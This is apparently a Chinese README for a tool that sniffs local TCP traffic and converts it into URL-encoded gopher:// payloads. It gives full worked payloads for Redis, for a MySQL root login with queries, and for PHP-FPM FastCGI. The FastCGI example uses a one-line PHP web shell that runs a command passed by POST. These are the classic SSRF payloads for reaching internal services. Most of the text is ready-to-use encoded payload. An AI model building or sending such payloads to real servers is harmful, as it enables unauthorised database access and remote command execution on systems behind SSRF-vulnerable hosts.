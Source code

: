 ### 原理
gopher协议是个tcp/ip协议，通过gopher协议可以发送tcp stream，payload使用%+16进制编码，其实原理比较简单，平时自己用tcpdump或者wireshark把stream一段段复制出来就行，但是这样在使用的时候发现很容易出错，出现错误很难排查，而且对着一大段16进制特别头晕，于是就有了此工具，直接打印出可以复制粘贴的payload，此工具通过网卡流量解析出tcp stream，转换为gopher的payload

### 使用
#### 测试redis e.g.
首先我们使用命令./sniffer -p6379 监听网卡，然后需要本地搭建redis服务，使用客户端去连接，并执行info命令，然后断开，打印如下payload
```
%2a%31%0d%0a%24%37%0d%0a%43%4f%4d%4d%41%4e%44%0d%0a%2a%31%0d%0a%24%34%0d%0a%69%6e%66%6f%0d%0a
```
然后加上gopher协议格式gopher:/ip:port/_ + payload就是最终payload
```
curl 'gopher://127.0.0.1:6379/_%2a%31%0d%0a%24%37%0d%0a%43%4f%4d%4d%41%4e%44%0d%0a%2a%31%0d%0a%24%34%0d%0a%69%6e%66%6f%0d%0a'
```

#### 测试mysql e.g.
首先我们使用命令./sniffer -p3306 监听网卡，然后需要本地搭建msyql服务，执行如下命令测试
```
mysql -h 127.0.0.1 -u root -e "use information_schema;show tables;"
```
得到payload
```
%bb%00%00%01%84%a2%9f%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%07%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%7e%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%0a%6c%69%62%6d%61%72%69%61%64%62%04%5f%70%69%64%05%33%31%31%34%33%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%05%33%2e%30%2e%37%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0c%5f%73%65%72%76%65%72%5f%68%6f%73%74%09%31%32%37%2e%30%2e%30%2e%31%12%00%00%00%03%53%45%4c%45%43%54%20%44%41%54%41%42%41%53%45%28%29%13%00%00%00%02%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%0c%00%00%00%03%73%68%6f%77%20%74%61%62%6c%65%73%01%00%00%00%01
```
然后加上gopher协议格式gopher:/ip:port/_ + payload就是最终payload

```
gopher:/127.0.0.1:3306/_%bb%00%00%01%84%a2%9f%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%07%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%7e%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%0a%6c%69%62%6d%61%72%69%61%64%62%04%5f%70%69%64%05%33%31%30%34%32%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%05%33%2e%30%2e%37%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0c%5f%73%65%72%76%65%72%5f%68%6f%73%74%09%31%32%37%2e%30%2e%30%2e%31%12%00%00%00%03%53%45%4c%45%43%54%20%44%41%54%41%42%41%53%45%28%29%13%00%00%00%02%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%0c%00%00%00%03%73%68%6f%77%20%74%61%62%6c%65%73%01%00%00%00%01
```

#### 测试fastcgi e.g.
首先我们使用./sniffer -p9000监听网卡，启动php-fpm服务监听到9000端口, 然后使用https://github.com/wuyunfeng/Python-FastCGI-Client 客户端模拟fastcgi请求，执行如下命令测试

```
python fcgi.py http://127.0.0.1:9000 /home/firebroo/test/1.php e=id
```

我的/home/firebroo/test/1.php内容为
```
<?php system($_POST['e']);?>
```

得到payload
```
%01%01%35%67%00%08%00%00%00%01%00%00%00%00%00%00%01%04%35%67%01%86%00%00%0e%01%43%4f%4e%54%45%4e%54%5f%4c%45%4e%47%54%48%34%0c%21%43%4f%4e%54%45%4e%54%5f%54%59%50%45%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0b%04%52%45%4d%4f%54%45%5f%50%4f%52%54%39%39%38%35%0b%09%53%45%52%56%45%52%5f%4e%41%4d%45%6c%6f%63%61%6c%68%6f%73%74%11%0b%47%41%54%45%57%41%59%5f%49%4e%54%45%52%46%41%43%45%46%61%73%74%43%47%49%2f%31%2e%30%0f%0e%53%45%52%56%45%52%5f%53%4f%46%54%57%41%52%45%70%68%70%2f%66%63%67%69%63%6c%69%65%6e%74%0b%09%52%45%4d%4f%54%45%5f%41%44%44%52%31%32%37%2e%30%2e%30%2e%31%0f%19%53%43%52%49%50%54%5f%46%49%4c%45%4e%41%4d%45%2f%68%6f%6d%65%2f%66%69%72%65%62%72%6f%6f%2f%74%65%73%74%2f%31%2e%70%68%70%0b%00%53%43%52%49%50%54%5f%4e%41%4d%45%0e%04%52%45%51%55%45%53%54%5f%4d%45%54%48%4f%44%50%4f%53%54%0b%02%53%45%52%56%45%52%5f%50%4f%52%54%38%30%0f%08%53%45%52%56%45%52%5f%50%52%4f%54%4f%43%4f%4c%48%54%54%50%2f%31%2e%31%0c%00%51%55%45%52%59%5f%53%54%52%49%4e%47%0d%19%44%4f%43%55%4d%45%4e%54%5f%52%4f%4f%54%2f%68%6f%6d%65%2f%66%69%72%65%62%72%6f%6f%2f%74%65%73%74%2f%31%2e%70%68%70%0b%09%53%45%52%56%45%52%5f%41%44%44%52%31%32%37%2e%30%2e%30%2e%31%0b%00%52%45%51%55%45%53%54%5f%55%52%49%01%04%35%67%00%00%00%00%01%05%35%67%00%04%00%00%65%3d%69%64%01%05%35%67%00%00%00%00
```

然后加上gopher协议格式gopher:/ip:port/_ + payload就是最终payload

```
gopher://127.0.0.1:9000/_%01%01%35%67%00%08%00%00%00%01%00%00%00%00%00%00%01%04%35%67%01%86%00%00%0e%01%43%4f%4e%54%45%4e%54%5f%4c%45%4e%47%54%48%34%0c%21%43%4f%4e%54%45%4e%54%5f%54%59%50%45%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0b%04%52%45%4d%4f%54%45%5f%50%4f%52%54%39%39%38%35%0b%09%53%45%52%56%45%52%5f%4e%41%4d%45%6c%6f%63%61%6c%68%6f%73%74%11%0b%47%41%54%45%57%41%59%5f%49%4e%54%45%52%46%41%43%45%46%61%73%74%43%47%49%2f%31%2e%30%0f%0e%53%45%52%56%45%52%5f%53%4f%46%54%57%41%52%45%70%68%70%2f%66%63%67%69%63%6c%69%65%6e%74%0b%09%52%45%4d%4f%54%45%5f%41%44%44%52%31%32%37%2e%30%2e%30%2e%31%0f%19%53%43%52%49%50%54%5f%46%49%4c%45%4e%41%4d%45%2f%68%6f%6d%65%2f%66%69%72%65%62%72%6f%6f%2f%74%65%73%74%2f%31%2e%70%68%70%0b%00%53%43%52%49%50%54%5f%4e%41%4d%45%0e%04%52%45%51%55%45%53%54%5f%4d%45%54%48%4f%44%50%4f%53%54%0b%02%53%45%52%56%45%52%5f%50%4f%52%54%38%30%0f%08%53%45%52%56%45%52%5f%50%52%4f%54%4f%43%4f%4c%48%54%54%50%2f%31%2e%31%0c%00%51%55%45%52%59%5f%53%54%52%49%4e%47%0d%19%44%4f%43%55%4d%45%4e%54%5f%52%4f%4f%54%2f%68%6f%6d%65%2f%66%69%72%65%62%72%6f%6f%2f%74%65%73%74%2f%31%2e%70%68%70%0b%09%53%45%52%56%45%52%5f%41%44%44%52%31%32%37%2e%30%2e%30%2e%31%0b%00%52%45%51%55%45%53%54%5f%55%52%49%01%04%35%67%00%00%00%00%01%05%35%67%00%04%00%00%65%3d%69%64%01%05%35%67%00%00%00%00
```

其它协议都可以支持，只要是一次性请求就行～～
